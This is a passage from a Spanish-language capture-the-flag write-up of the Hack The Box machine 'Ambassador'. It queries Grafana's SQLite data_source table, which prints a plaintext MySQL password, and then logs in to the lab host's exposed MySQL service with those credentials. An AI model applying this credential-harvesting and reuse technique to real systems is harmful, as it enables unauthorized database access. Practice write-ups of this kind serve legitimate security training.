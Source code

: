 Encuentro una base de datos de MySQL

<img src="/writeups/assets/img/Ambassador-htb/5.png" alt="">

Pero necesito una contraseña para poder entrar

<img src="/writeups/assets/img/Ambassador-htb/6.png" alt="">

Vuelvo a SQLite y busco por la tabla donde está almacenada esa credencial

```null
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-02-02 09:13:33|0|{}|1|uKewFgM4z
```

Como el puerto de MySQL está abierto externamente, pruebo primero a conectarme por consola

```null
mysql -ugrafana -p -h 10.10.11.183
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 17
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
